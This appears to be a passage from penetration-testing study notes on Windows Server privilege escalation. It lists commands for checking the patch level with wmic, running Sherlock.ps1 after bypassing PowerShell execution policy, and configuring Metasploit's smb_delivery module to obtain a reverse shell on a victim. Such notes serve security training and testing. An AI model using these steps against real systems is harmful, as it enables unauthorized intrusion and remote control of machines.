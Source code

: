 * Windows Server:

    ```cmd
    # query current patch level
    wmic qfe
    ```

    ```ps
    # run Sherlock to fetch more info
    Set-ExecutionPolicy Bypass -Scope process

    Import-Module .\Sherlock.ps1
    
    Find-AllVulns
    # reports multiple CVEs if it is older
    ```

    ```sh
    # on attacker
    # we can use the smb_delivery module from Metasploit to get reverse shell

    sudo msfconsole
    # we need bind permissions for port 445

    search smb_delivery

    use 0

    show options
    # config everything to host share

    show targets
    # DLL and PSH

    set target 0
    # DLL

    exploit
    # this gives a command to be run on victim
    ```
